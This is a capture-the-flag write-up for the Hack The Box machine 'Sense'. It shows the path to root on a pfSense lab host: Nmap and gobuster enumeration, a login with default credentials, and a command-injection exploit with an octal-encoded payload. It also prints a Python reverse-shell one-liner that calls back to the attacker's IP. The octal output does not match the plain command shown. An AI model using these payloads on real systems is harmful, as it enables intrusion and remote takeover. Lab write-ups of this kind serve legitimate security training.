


---
search:
  exclude: true
---
# Sense Writeup

## Introduction :

Sense is an easy FreeBSD box that was released back in October 2017. 

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.48/23 ] [~] → nmap -sC -sV 10.10.10.60
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-21 13:32 CET
      Nmap scan report for 10.10.10.60
      Host is up (0.13s latency).
      Not shown: 998 filtered ports
      PORT    STATE SERVICE  VERSION
      80/tcp  open  http     lighttpd 1.4.35
      |_http-server-header: lighttpd/1.4.35
      |_http-title: Did not follow redirect to https://10.10.10.60/
      |_https-redirect: ERROR: Script execution failed (use -d to debug)
      443/tcp open  ssl/http lighttpd 1.4.35
      |_http-server-header: lighttpd/1.4.35
      |_http-title: Login
      | ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
      | Not valid before: 2017-10-14T19:21:35
      |_Not valid after:  2023-04-06T19:21:35
      |_ssl-date: TLS randomness does not represent time
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 44.03 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up that the 80th port was opened. let's open see what lies at the corresponding URL within a web browser.

Seems like we are greeted with a pfSense login page. We are going to run a dirbusting command to enumerate the directories available on the webservice.
    
    
      λ nihilist [ 10.10.14.48/23 ] [~] → gobuster -w /usr/wordlists/directory.txt -u http://10.10.10.60/ -x php,txt,cnf,conf
    

Gobuster found the cmd.txt, system.txt and changelog.txt 

Navigating to the system-users.txt we seem to have a username to work with. We'll test if we can log in using the default credentials **rohit:pfsense**

And we are logged in ! We see that the system is running FreeBSD 8.3-RELEASE-p16 with an outdated 2.1.3-RELEASE amd64 pfSense, by running a quick searchsploit command with the keywords pfsense 2.1 we see that the service may be vulnerable to Command Injections.
    
    
      λ nihilist [ 10.10.14.48/23 ] [~] → searchsploit Sense 2.1
    --------------------------------------------------------------------------- ----------------------------------------
     Exploit Title                                                             |  Path
                                                                               | (/usr/share/exploitdb/)
    --------------------------------------------------------------------------- ----------------------------------------
    pfSense 2.1 build 20130911-1816 - Directory Traversal                      | exploits/php/webapps/31263.txt
    pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection             | exploits/php/webapps/43560.py
    --------------------------------------------------------------------------- ----------------------------------------
    Shellcodes: No Result
    
    

Let's first locate the exploit n°43560 on our system and copy it to our current directory. 
    
    
    λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Sense] → locate 43560.py
    /usr/share/exploitdb/exploits/php/webapps/43560.py
    
    λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Sense] → cp /usr/share/exploitdb/exploits/php/webapps/43560.py .
    
    λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Sense] → nano 43560.py
    

looking at the exploit made by [absolomb](https://www.absolomb.com/), we see that the exploit is supposed to exploit a command Injection Vulnerability that can be found within the status_rrd_graph_img php file onto the pfsense webservice. We will need to pass it the --rhost , --lhost, --lport, --username, --password flags. 

## **Part 3 : Getting Root Access**

Within the exploit the main lines are the following :
    
    
    payload = ""
    
    # encode payload in octal
    for char in command:
            payload += ("\\" + oct(ord(char)).lstrip("0o"))
    
    exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"
    

the exploit starts to browse at the url https://10.10.10.60/status_rrd_graph_img.php?database=queues; and from there starts the Command Execution Vulnerability, and we choose whatever command we need to execute. One thing to note though is that the command should be passed onto the URL with an Octal encoded string. rather than attempting to pass it as plain text, if we isolate the octal conversion part it looks like this :
    
    
    λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Sense] → cat exploit.py
    #!/usr/bin/env python3
    
    command = "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.48',443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i'];'"
    
    payload = ""
    
    for char in command:
    	payload += ("\\" + oct(ord(char)).lstrip("0o"))
    
    print(payload)
    
    λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Sense] → python exploit.py
    \160\171\164\150\157\156\40\55\143\40\47\151\155\160\157\162\164\40\163\157\143\153\145\164\54\163\165\142\160\162\157\143\145\163\163\54\157\163\73\163\75\163\157\143\153\145\164\56\163\157\143\153\145\164\50\163\157\143\153\145\164\56\101\106\137\111\116\105\124\54\163\157\143\153\145\164\56\123\117\103\113\137\123\124\122\105\101\115\51\73\163\56\143\157\156\156\145\143\164\50\50\47\61\60\56\61\60\56\61\64\56\61\60\47\54\64\64\63\51\51\73\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\60\51\73\40\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\61\51\73\40\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\62\51\73\160\75\163\165\142\160\162\157\143\145\163\163\56\143\141\154\154\50\133\47\57\142\151\156\57\163\150\47\54\47\55\151\47\135\73\47
    
    

Now before we run the python script, we ready our terminal with the nc command with the -lvnp flags in order to catch the incoming reverse shell onto the corresponding port. 

_Terminal 1:_
    
    
        λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Sense] → nc -lvnp 9001
      

_Terminal 2:_
    
    
        python 43560.py --rhost 10.10.10.60 --lhost 10.10.14.48 --lport 9001 --username rohit --password pfsense
        CSRF token obtained
        Running exploit...
        Exploit completed
      

_Terminal 1:_
    
    
        λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Sense] → nc -lvnp 9001
        Connection from 10.10.10.60:34128
        sh: cant access tty; job control turned off
        # id
        uid=0(root) gid=0(wheel) groups=0(wheel)
        # cat /root/root.txt
        d0XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
        # cat /home/rohit/user.txt
        87XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
      

And that's it ! The exploit spawned a root shell for us, and we have been able to print both the root and the user flags. 

## **Conclusion**

Here we can see the progress graph :

